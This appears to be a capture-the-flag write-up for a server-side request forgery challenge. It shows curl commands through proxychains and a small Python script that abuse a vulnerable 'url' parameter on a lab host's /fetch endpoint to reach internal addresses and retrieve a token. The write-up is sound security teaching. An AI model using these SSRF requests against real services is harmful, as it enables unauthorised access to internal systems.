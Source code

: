 1) `mind` is the name of this asset. It has an endpoint called `/fetch` which contains a vulnerable parameter called `url`. When first called, this endpoint complains about not having a URL provided. This is our chance to get closer to exploitation.

2) Try a basic request:

```bash
proxychains curl "http://10.4.4.20:5001/fetch?url=http://example.com"
```

In this challenge, the asset is air gapped. As a result, this domain, will not resolve. However, we do have access `to our own netspaces`. 

3) Try the command again but substitute the `example.com` for `the server's IP address or your own`.

```bash
proxychains curl "http://10.4.4.20:5001/fetch?url=http://10.4.4.20:5001"
```

Here's a python alternative:

```python
import requests

def exploit_ssrf():
    target = "http://10.4.4.20:5001/fetch?url=http://<ACCESSIBLE HOST>"
    response = requests.get(target)
    print(response.text)

exploit_ssrf()
```

4) Here's a visual of this command's execution:

![Image of solution in action](img/5001-Solution.png)

DNS Rebinding is in play and will block attempts at using `localhost` or `127.0.0.1` as a valid answer.

This will immediately yield the first token of this challenge.

### Question 2

🥷 Obtained by drowning out the noise - a second view on things (body)

#### Solving Strategy

##### Understanding the Vulnerability
